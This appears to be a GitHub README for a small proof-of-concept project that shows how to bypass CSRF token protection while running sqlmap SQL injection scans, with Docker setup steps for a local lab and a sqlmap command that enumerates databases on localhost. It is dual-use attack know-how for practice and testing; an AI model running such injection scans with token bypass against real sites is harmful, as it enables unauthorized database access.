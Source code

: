 # CSRF SQLMap Bypass 💉

### Setup

```
git clone https://github.com/itasahobby/CSRF_SQLMap_Bypass.git
docker-compose -f .\docker\docker-compose.yaml up --build
```

### PoC

Run the following sqlmap command:
```
sqlmap -u "http://localhost/index.php?action=0" --method GET --preprocess ./poc/preprocess.py --batch --dbs
```

There is a more in depth writeup in my [blog]().
### Mentions

Idea inspired by [**Dreg**](https://github.com/David-Reguera-Garcia-Dreg/) 